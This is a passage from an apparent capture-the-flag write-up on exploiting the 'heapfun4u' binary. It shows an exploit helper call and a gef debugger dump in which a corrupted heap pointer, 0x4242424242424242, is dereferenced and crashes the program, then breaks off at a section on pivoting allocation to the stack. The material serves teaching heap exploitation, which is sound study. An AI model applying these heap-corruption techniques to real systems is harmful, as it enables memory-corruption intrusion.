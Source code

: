 The next allocation will attempt to dereference the address 0x4242424242424242
to see if it's a suitable buffer:

{% highlight python %}
  allocate(s, 0x200)
{% endhighlight %}

And as expected:

{% highlight bash %}
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$rax     0x4242424242424242 $rbx     0x0000000000000003 $rcx     0x00007f580ed92ac0 $rdx     0x0000000000000000 $rsp     0x00007ffceb5f8a70 $rbp     0x00007ffceb5f8ad0
$rsi     0x00007ffceb5f8ae3 $rdi     0x0000000000000200 $rip     0x0000000000400d77 $r8      0x00007f580efe1500 $r9      0x0000000000000200 $r10     0x000000000000000a
$r11     0x1999999999999999 $r12     0x00000000004006b0 $r13     0x00007ffceb5f8ce0 $r14     0x0000000000000000 $r15     0x0000000000000000 $cs      0x0000000000000033
$ss      0x000000000000002b $ds      0x0000000000000000 $es      0x0000000000000000 $fs      0x0000000000000000 $gs      0x0000000000000000 $eflags  [ PF IF RF ]
Flags: [ carry  PARITY  adjust  zero  sign  trap  INTERRUPT  direction  overflow  RESUME  virtualx86  identification ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0x00007ffceb5f8a70│+0x00: -0x1		← $sp
0x00007ffceb5f8a78│+0x08: 0x2000efe1740
0x00007ffceb5f8a80│+0x10: 0x00007f580ed92a35 → 0x0
0x00007ffceb5f8a88│+0x18: 0x00007ffceb5f8ae0 → "512[...]"
0x00007ffceb5f8a90│+0x20: 0x00007ffceb5f8ce0 → 0x1
0x00007ffceb5f8a98│+0x28: 0x2
0x00007ffceb5f8aa0│+0x30: 0x4242424242424242
0x00007ffceb5f8aa8│+0x38: 0x00000000004006b0 → xor ebp,ebp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386:x86-64]──
0x400d67	 mov    QWORD PTR [rbp-0x8],rax
0x400d6b	 mov    rax,QWORD PTR [rbp-0x8]
0x400d6f	 mov    QWORD PTR [rbp-0x30],rax
0x400d73	 mov    rax,QWORD PTR [rbp-0x8]
0x400d77	 mov    rax,QWORD PTR [rax] 		 ← $pc
0x400d7a	 and    rax,0xfffffffffffffffc
0x400d7e	 lea    rdx,[rax-0x8]
0x400d82	 mov    rax,QWORD PTR [rbp-0x8]
[...]
{% endhighlight %}

We now need to create a good setup in the stack to have `heapfun4u` believe its
a valid region for allocation.


#### Pivoting to stack ####
